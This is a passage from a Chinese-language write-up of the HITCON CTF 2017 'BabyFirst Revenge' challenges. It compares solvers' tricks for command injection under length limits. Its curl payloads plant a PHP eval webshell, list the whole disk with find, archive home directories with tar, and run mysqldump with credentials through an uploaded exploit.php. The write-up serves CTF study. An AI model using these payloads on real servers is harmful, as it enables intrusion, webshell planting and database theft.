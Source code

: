 就是通过如上所示的方式，我们可以执行`ls -t>g`指令。那么，当我们能执行这个指令以后，就和7字节的命令执行限制条件完全相同了。（只要先在\_中写入如上所示数据，然后再逆序传入我们要执行的指令，然后执行sh \_.这样就把指令写入g文件中，再执行g即可。）

Chybeta的思路和Orange的思路几乎相同，也是曲线救国先写一个`ls -t>g`指令，再执行。不过，他的十进制技巧和通过`rm%20i* sh%20a sh%20i*`还是可以学习的。

至于王一航的第一个思路其实也是一样，先写一个`ls -t >g`指令到文件，然后逆序写入一个base编码后的指令，再通过执行`ls -t >g`将base64写到一个文件，再执行这个文件，将写一句话指令写入文件c，最后执行c，写入一个webshell。

```bash
➜  1924cf16182a5279a02c5ffb573daaa4 cat c
echo '<?php eval($_REQUEST[c]);?>'>c.php%
```

 而他的思路二和我们的思路一样，不再赘述。不过，mysqldump的tip值的记录一下。

```mysql
 mysqldump --single-transaction -u user -p DBNAME > backup.sql
```

infosec的思路非常神奇，值的学习。

```bash
curl 'http://52.199.204.34/?cmd=>find'
curl 'http://52.199.204.34/?cmd=*%20/>x'
```

他通过\*，成功拼接指令，将`find />x`成功执行。把所有信息写入x，然后网页端访问一下，就能获得所有硬盘上数据信息。

```bash
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```

再通过这个指令，将home目录下的数据压缩包保存下来。

```bash
cat << EOF >> exploit.php
<?php exec('mysqldump --single-transaction -ufl4444g -pSugZXUtgeJ52_Bvr --all-databases > /var/www/html/sandbox/727479ef7cedf30c03459bec7d87b0f0/dump.sql 2>&1'); ?>
EOF
curl 'http://52.199.204.34/?reset=1'
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>vcf'
curl 'http://52.199.204.34/?cmd=>z'
curl -F file=@exploit.php -X POST 'http://52.199.204.34/?cmd=%2A%20%2Ft%2A'
curl 'http://52.199.204.34/?cmd=php%20z'
```

先将一个文件上传到临时文件区，再将其压缩到z，最后再解压出来。这样，我们就能在网页端访问这个页面，获得最终的FLAG。



## BabyFirst Revenge v2

Orange的题解：https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py

这里主要利用的\*能执行指令的技巧，逆序写入一个`ls -t>g`指令。
